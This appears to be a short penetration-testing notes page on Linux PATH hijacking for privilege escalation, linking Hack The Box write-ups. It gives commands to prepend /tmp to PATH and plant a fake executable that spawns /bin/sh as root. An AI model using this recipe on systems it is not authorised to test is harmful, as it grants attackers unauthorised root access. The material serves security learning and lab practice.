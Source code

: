 ```yaml
---
tags:
  - PostExploitation
  - OperatingSystems
  - Linux
---
```

Path hijacking within privilege escalation refers to the manipulation of file paths or environment variables to trick a system into executing malicious code or commands with elevated privileges. This technique is commonly used by attackers to gain unauthorized access to sensitive data or carry out malicious activities on a compromised system. 
By manipulating the path that the system uses to locate executable files, an attacker can redirect the system to run their own malicious code instead of the intended legitimate program. This allows the attacker to escalate their privileges and potentially gain full control over the system.

# Guide

If an application is being run, as root, without a full path being used, see [HTB: Lazy | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/07/29/htb-lazy.html#priv-mitsos--root) and [Hack The Box - Zipper - 0xRick’s Blog](https://0xrick.github.io/hack-the-box/zipper/)

1. By default, `$PATH`

```
echo $PATH
```

2. Change the path

```
PATH=/tmp:$PATH
```

3. Place your own executable within the path location under the application name which is known to be executed, e.g.

```
#!/bin/sh 

/bin/sh
```
